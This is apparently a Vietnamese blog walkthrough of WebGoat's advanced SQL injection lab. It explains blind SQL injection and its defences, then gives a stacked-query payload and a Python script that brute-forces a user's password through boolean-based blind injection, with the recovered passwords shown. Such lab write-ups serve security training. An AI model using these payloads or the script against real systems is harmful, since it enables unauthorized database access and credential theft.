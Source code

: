 ```yaml
---
title: "(A3) SQL Injection - SQL Injection (Advanced) - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A3) SQL Injection - SQL Injection (Advanced)"
date: "21-3-2024"
id: "11"
---
```


- **Blind SQL** injection là một phương pháp tấn công vào các ứng dụng web thông qua việc lợi dụng lỗ hổng bảo mật trong việc xử lý cơ sở dữ liệu SQL. Trong kiểu tấn công này, kẻ tấn công cố gắng chèn các câu lệnh SQL vào các trường dữ liệu đầu vào của ứng dụng web để thực hiện các hành động không được ủy quyền hoặc thu thập thông tin từ cơ sở dữ liệu.
- Trong trường hợp blind SQL injection, kẻ tấn công không nhận được bất kỳ phản hồi trực tiếp nào từ hệ thống sau khi thực hiện một yêu cầu tấn công. Thay vào đó, họ phải dựa vào các biểu hiện gián tiếp từ hệ thống để suy luận thông tin về cơ sở dữ liệu.

- Cụ thể, kẻ tấn công có thể sử dụng các kỹ thuật như "boolean-based blind SQL injection" hoặc "time-based blind SQL injection". Trong boolean-based blind SQL injection, kẻ tấn công thực hiện các truy vấn SQL dựa trên các điều kiện logic và suy luận thông tin dựa trên câu trả lời đúng/sai từ hệ thống. Trong time-based blind SQL injection, kẻ tấn công thực hiện các truy vấn có thời gian chạy lâu hơn và suy luận thông tin dựa trên thời gian phản hồi từ hệ thống.
- Các hậu quả của blind SQL injection có thể rất nghiêm trọng, bao gồm việc lợi dụng quyền truy cập không được ủy quyền vào cơ sở dữ liệu, thu thập thông tin nhạy cảm hoặc thậm chí kiểm soát hoàn toàn hệ thống. Để ngăn chặn blind SQL injection, các nhà phát triển web cần chú ý đến việc kiểm tra và xử lý đúng các đầu vào người dùng, sử dụng các phương pháp an toàn trong việc truy xuất cơ sở dữ liệu như Prepared Statements hoặc ORM (Object-Relational Mapping), và thường xuyên cập nhật và kiểm tra mã nguồn để phát hiện và khắc phục các lỗ hổng bảo mật.

## 1. Try It! Pulling data from other tables

- Đề bài yêu cầu lấy tất cả dữ liệu của bảng `user_system_data` và lấy mật khẩu của Dave.
- Nhập câu lệnh sau vào ô Name là nhấn Get Account Info:

```json
'; SELECT * FROM user_system_data;--
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H46_ya1wem.png)

- Ta code thể thấy được mật khẩu của Dave là `passW0rD`, dán mật khẩu vào ô Password và nhấn Check Password là xong:
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H47_fcgm3n.png)

## 2. Login

- Ta đăng kí một tài khoản với Username là: `tom' AND substring(password, 1, 1)='t`, ta có thể suy ra trong password của Tom có một chữ là `t`:
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H48_fs50vr.png)
- Ta chạy chương trình Python sau gửi request để kiểm tra tất cả mật khẩu có thể có, thay đổi session_id tương ứng trên trình duyệt của bạn:

```python
import json,requests

def main():
    url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
    webgoat_session_id = "0qexwJ47oTLOrGtzuYKYogZvulhhHESl-HYq07E1"
    header = {
        "Cookie": "JSESSIONID=" + webgoat_session_id,
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Referer": "http://localhost:8080/WebGoat/start.mvc",
        "Origin": "http://localhost:8080",
        "Host": "localhost:8080",
        "Content-Length": "126",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\"",
        "Accept": "*/*",
        "Connection": "keep-alive",
        "X-Requested-With": "XMLHttpRequest",
        "sec-ch-ua-mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36",
        "sec-ch-ua-platform": "macOS",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Dest": "empty",
        "Accept-Language": "en-US,en;q=0.9",
        "Accept-Encoding": "gzip, deflate",
    }
    password = ""
    for length in range(1, 25):
        for letter in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            params = "username_reg=tom'+AND+substring(password%2C1%2C" + str(
                length) + ")%3D'" + password + letter + "&email_reg=test%40test.test&password_reg=test&confirm_password_reg=test"
            r = requests.put(url, headers=header, data=params)
            if "already exists" in r.text:
                password += letter
                print(password)
                break
            else:
                continue
    print("")
    print("")
    print("Password found: " + password)

if __name__ == "__main__":
    main()
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H49_tax4nz.png)

- Chạy sẽ hơn lâu, ta tìm được mật khẩu là `thisisasecretfortomonly`. Ta đăng nhập với Username là Tom và mật khẩu vừa tìm được:
  ![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H50_rbviid.png)
